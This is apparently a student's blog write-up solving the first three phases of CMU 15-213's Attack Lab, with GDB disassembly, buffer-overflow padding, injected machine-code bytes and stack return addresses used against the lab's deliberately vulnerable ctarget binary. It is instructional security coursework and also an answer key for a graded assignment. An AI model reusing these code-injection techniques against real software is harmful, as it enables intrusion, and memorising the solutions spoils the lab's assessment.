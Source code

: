 ```yaml
---
title: Attack Lab
author: Arjun
date: 2024-08-01
tags: assembly, low-level
---
```


## Overview
A lab assignment from CMU's [15-213 course](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f22/www/schedule.html).

You can find the assignment [here](https://csapp.cs.cmu.edu/3e/labs.html)
Refer to [writeup](https://csapp.cs.cmu.edu/3e/attacklab.pdf)

Note: This is the 64-bit successor to the 32-bit Buffer Lab. Students are given a pair of unique custom-generated x86-64 binary executables, called targets, that have buffer overflow bugs. One target is vulnerable to code injection attacks. The other is vulnerable to return-oriented programming attacks. Students are asked to modify the behavior of the targets by developing exploits based on either code injection or return-oriented programming. This lab teaches the students about the stack discipline and teaches them about the danger of writing code that is vulnerable to buffer overflow attacks.

### Phase 1
Running `disas getbuf` inside GDB outputs the following
```c
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
```
We can see that `0x28` (40) bytes has been allocated for `getbuf`.  
(struggled here because I assumed 0x28 was 28 bytes.)
We have to pad 40 bytes followed by the return address
`disas touch1`
```c
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
```

The return address should be `0x00000000004017c0`.
We add the following to `input.txt`

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

Then we run `./hex2raw < input.txt > output.txt`
Followed by, `./ctarget -q < output.txt`

```
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
```
### Phase 2
Writeup mentions that an argument (`%rdi`) is passed to `touch2`.  
We have to pass cookie as an argument to `touch2` i.e., store value in `cookie.txt` in `%rdi`

So what we are planning to do here is to 
1. obviously overflow the buffer
2. store our cookie in `%rdi`
3. call `touch2`
step 1 is straightforward, so is 3 (we can just overwrite the return address). but what about step 2?

**How do we execute this code?**
1. Basically we have to put our exploit code in the buffer (will explain this)
2. Pad the rest 
3. Overwrite the return address to the start of the buffer (this way our exploit code gets executed)

![buffer-overflow-code-injection](attack-lab-buffer-overflow.JPG)

sample input.txt
```
exploit code // stored cookie in %rdi
padding
address to start of buffer (%rsp) // exploit code gets executed
address to touch 2 // executes touch2 with cookie as argument
```

**generating exploit code**
Write the following into `p2.s`
```c
mov $0x59b997fa, %rdi //value of cookie read from cookie.txt is stored in rdi
retq
```

execute the following
```
gcc -c p2.s
objdump -d p2.o > p2.d
```

We get the following disassemble code
```c
0000000000000000 <.text>:
   0: 48 c7 c7 fa 97 b9 59      mov    $0x59b997fa,%rdi
   7: c3                        retq
```
We now have the byte representation of our exploit code. `48 c7 c7 fa 97 b9 59 c3`
Make sur `c3` is included. I thought the byte representation had to be in little-endian but that's not necessary. Pad the remaining 32 bytes with 0s.

To get address of start of buffer, run the program in gdb. get the address of `%rsp` before it exits `getbuf`. Add the address to `input.txt` in little-endian.
To get address of touch2, run `disas touch2` in gdb, the address of the first instruction is what we want. Add the address to `input.txt` in little-endian.

```
 48 c7 c7 fa 97 b9 59 c3
 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00
 78 dc 61 55 00 00 00 00
 ec 17 40 00 00 00 00 00
```
### Phase 3

```c
int hexmatch(unsigned val, char *sval)
{
	char cbuf[110];
	/* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
```
`unsigned val` is `unsigned int` parameter
`s` is set to point at a random position within the first 100 bytes of `cbuf`.
`sprintf` writes the hex representation of `val` at position pointed by `s`
`strncmp` compares 9 bytes of `sval` and `val`. Returns 0 if strings are equal. `hexmatch` returns 1 if strings are equal.

```c
void touch3(char *sval) {
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
```
We have to pass `cookie` in `%rdi` by writing it into the exploit string. Write only the eight hex digits. No `0x`. Terminate with `00`.

```
cookie + 00
exploit code // mov (%rsp), %rdi ; %rdi = cookie
padding
addr to exploit code // %rsp + 8
addr to touch 3
```


### Things to Remember
- stack structure
	- arguments are pushed to caller's stack frame in reverse order
	- return address is pushed to stack, also executes `call` instruction
	- `ebp` of P is pushed to stack by Q
	- `esp` is stored in `ebp`. current stack pointer is set as Q's base pointer.
	- `ebp` of callee is used as reference point to access arguments
	- `esp` is decremented to allocated space
- exploits
	- consider buffer of size N is allocated.
	- put exploit code in buffer. (assume exploit code fits in buffer)
	- pad remaining with garbage
	- overflow buffer by overwriting `return address` with start of exploit code.
- misc
	- `ret` pops return address from stack and jumps to address
	- `mov esp, ebp` > `pop ebp` > `ret`
		
